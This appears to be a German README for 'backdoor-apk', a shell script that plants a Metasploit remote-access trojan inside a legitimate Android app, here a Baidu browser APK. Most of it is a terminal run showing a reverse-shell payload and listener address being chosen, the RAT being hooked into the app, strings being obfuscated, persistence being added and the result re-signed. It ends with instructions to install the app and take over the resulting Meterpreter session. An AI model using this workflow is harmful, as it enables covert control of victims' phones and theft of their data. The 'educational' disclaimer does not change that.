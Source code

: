 # backdoor-apk
backdoor-apk ist ein Shell-Skript, das den Prozess des Hinzufügens einer Hintertür zu einer beliebigen Android-APK-Datei vereinfacht. Benutzer dieses Shell-Skripts sollten über fundierte Kenntnisse in Linux, Bash, Metasploit, Apktool, dem Android SDK, Smali usw. verfügen. Dieses Shell-Skript wird ohne jegliche Garantie bereitgestellt und ist ausschließlich zu Bildungszwecken gedacht.

Usage:

```
root@kali:~/Code/github/backdoor-apk/backdoor-apk# ./backdoor-apk.sh BaiduBrowser.apk 
          ________
         / ______ \
         || _  _ ||
         ||| || |||          AAAAAA   PPPPPPP   KKK  KKK
         |||_||_|||         AAA  AAA  PPP  PPP  KKK KKK
         || _  _o|| (o)     AAA  AAA  PPP  PPP  KKKKKK
         ||| || |||         AAAAAAAA  PPPPPPPP  KKK KKK
         |||_||_|||         AAA  AAA  PPP       KKK  KKK
         ||______||         AAA  AAA  PPP       KKK  KKK
        /__________\
________|__________|__________________________________________
       /____________\
       |____________|            Dana James Traversie

[*] Running backdoor-apk.sh v0.2.4a on Fri Sep 28 17:13:37 EDT 2018
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 10.6.9.31
[?] Please enter an LPORT value: 443
[+] Android manifest permission options:
1) Keep original
2) Merge with payload and shuffle
[?] Please select an Android manifest permission option: 2
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Decompiling original APK file...done.
[*] Locating smali file to hook in original project...done.
[+] Package where RAT smali files will be injected: com/baidu/browser/inter
[+] Smali file to hook RAT payload: com/baidu/browser/inter/BdApplication.smali
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Injecting helpful Java classes in RAT APK file...done.
[*] Creating new directory in original package for RAT smali files...done.
[+] Inject package path: com/baidu/browser/inter/pjese
[+] Generated new smali class name for MainBroadcastReceiver.smali: Iivym
[+] Generated new smali class name for MainService.smali: Aupyx
[+] Generated new smali class name for Payload.smali: Nwiuc
[+] Generated new smali class name for StringObfuscator.smali: Abnrw
[+] Generated new smali method name for StringObfuscator.obfuscate method: icobf
[+] Generated new smali method name for StringObfuscator.unobfuscate method: wbcik
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Code/github/backdoor-apk/backdoor-apk#
```

Die neu kompilierte APK wird im Verzeichnis 'original/dist' zu finden sein. Installieren Sie die APK auf einem kompatiblen Android-Gerät, führen Sie sie aus und verwalten Sie die Meterpreter-Verbindung über das generierte Ressourcenskript: msfconsole -r backdoor-apk.rc
